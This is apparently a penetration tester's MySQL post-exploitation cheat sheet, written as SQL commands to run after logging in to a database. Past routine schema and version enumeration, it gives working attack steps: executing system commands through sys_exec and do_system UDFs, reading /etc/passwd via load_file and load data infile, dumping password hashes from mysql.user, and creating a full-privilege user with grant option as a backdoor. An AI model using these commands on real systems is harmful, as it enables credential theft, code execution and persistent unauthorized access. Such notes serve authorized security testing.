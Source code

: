 Once logged in, check out the schema and environment:

```sql
-- show list of databases
show databases;
-- Set current database to mysql
use mysql;
-- show tables in current database
show tables;
-- describe the table schema for 'user' table
describe user;
select table_name,column_name,table_schema from information_schema.columns where table_schema=database();

-- show MySQL version (both versions work)
select version();
select @@version;
-- show logged-in user
select user();
select system_user();
-- show active database
select database();
show databases;
-- show system architecture
select @@version_compile_os, @@version_compile_machine;
show variables like '%compile%';
-- show plugin directory (for UDF exploit)
select @@plugin_dir;
show variables like 'plugin%';

-- Try to execute code (try all ways)
\! id
select sys_exec('id')
select do_system('id');

-- Try to read files
select load_file('/etc/passwd');
-- more complex method
create table if not exists test (entry TEXT);
load data local infile "/etc/passwd" into table test fields terminated by '\n';
select * from test;
-- show file privileges of 'test' user
select user,file_priv from mysql.user where user='test';
-- show all privs of current user
select * from mysql.user where user = substring_index(user(), '@', 1) ;

-- Look at passwords
-- MySQL 5.6 and below
select host, user, password from mysql.user;
-- MySQL 5.7 and above
select host, user, authentication_string from mysql.user;

-- add new user with full privileges
create user test identified by 'test';
grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to test identified by 'test' WITH GRANT OPTION;
-- show exact privileges
use information_schema; select grantee, table_schema, privilege_type from schema_privileges;
select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user where user='OUTPUT OF select user()';
```
